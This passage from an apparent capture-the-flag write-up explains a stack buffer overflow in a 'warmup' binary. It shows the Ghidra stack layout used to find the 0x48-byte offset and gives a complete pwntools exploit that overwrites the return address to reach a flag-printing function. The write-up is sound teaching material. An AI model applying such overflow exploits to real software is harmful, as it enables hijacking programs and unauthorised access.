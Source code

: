 We can also find the offset from the start of our input to the saved return address in ghidra. At the start of the function, it will display the stack layout. It will address the various variables on the stack with the offset to the saved return address. We see that `input` is addressed at `-0x48`, so it is `0x48` bytes away from the saved return address. I have seen some instances where Ghidra gets this wrong, but it is always good to know multiple ways to accomplish the same thing.

```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined main()
             undefined         AL:1           <RETURN>
             undefined1[64]    Stack[-0x48]   input                                   XREF[1]:     00400692(*)  
             undefined1[64]    Stack[-0x88]   easyFunctionAddress                     XREF[2]:     0040064d(*),
                                                                                                   00400668(*)  
                             main                                            XREF[5]:     Entry Point(*),
                                                                                          _start:0040053d(*),
                                                                                          _start:0040053d(*), 0040077c,
                                                                                          00400830(*)  
        0040061d 55              PUSH       RBP

```

So we can see that after `0x48` bytes of input, we start overwriting the return address. With all of this, we can write the exploit;
```
from pwn import *

target = process('./warmup')
gdb.attach(target, gdbscript = 'b *0x4006a3')

# Make the payload
payload = b""
payload += b"0"*0x48 # Overflow the buffer up to the return address
payload += p64(0x40060d) # Overwrite the return address with the address of the `easy` function

# Send the payload
target.sendline(payload)

target.interactive()
```

When we run it. This might crash on the `system("cat flag.txt")` if you are running it on a more modern version of libc. This is because the challenge was made to run in a different environment/libc version, and exploitation techniques that work one way in one environment work differently in others.
